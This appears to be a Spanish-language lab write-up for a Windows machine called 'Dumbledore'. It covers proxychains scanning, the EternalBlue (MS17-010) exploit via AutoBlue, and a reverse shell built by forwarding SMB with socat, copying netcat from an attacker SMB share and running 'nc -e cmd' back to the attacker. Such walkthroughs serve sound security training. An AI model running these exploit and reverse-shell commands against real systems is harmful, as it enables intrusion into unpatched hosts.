 ```yaml
---
title: "4. Dumbledore"
description: "4. Dumbledore"
pubDate: 2025-05-20
---
```


[2. Nagini](../2-nagini) #win

 > [!NOTE]
 > La fase de Pivoting y buscar host ya está hecha con Fawkes al estar en la misma subred

# Fase de reconocimiento

Nos encontramos ante un Windows.

## Buscar puertos

````
proxychains nmap -sT -Pn --top-ports 500 -open -T5 -v -n <ip4> 2>/dev/null
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240423184902.png)

## Miramos por SMB ante que nos encontramos

````
proxychains crackmapexec smb <ip4> 2>/dev/null
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240423185017.png)

# Fase de ataque

## EternalBlue

Como vemos que tiene SMBv1 activo.
Podemos usar tanto Metaexploit como Autoblue.
https://github.com/3ndG4me/AutoBlue-MS17-010

1. Comprobamos que hay pipes expuestos

````
proxychains python3 eternal_checker.py <ip4>
````

2. Lanzamos el exploit

````
proxychains python2.7 zzz_exploit.py <ip4>
````

\[+\] ==pwned!==

## Conseguimos una shell completa

1. Descargamos netcat https://eternallybored.org/misc/netcat/
1. Redirigimos con socat el puerto 445 en Nagini y Aragog

````
./socat TCP-LISTEN:445, fork TCP:<ip1>:445
````

3. Abrimos un server smb en el equipo atacante

````
smbserver.py smbFolder $(pwd) -smb2support
````

4. Copiamos a través de archivos compartidos el netcat

````
copy \\<ip2>\smbFolder\nc64.exe C:\Windowss\Temp\nc.exe
````

5. Nos ponemos en escucha por el puerto 445

````
rlwrap nc -nlvp 445
````

6. Ejecutamos el netcat

````
C:\Windows\Temp\nc.exe -e cmd <ip2> 445
````
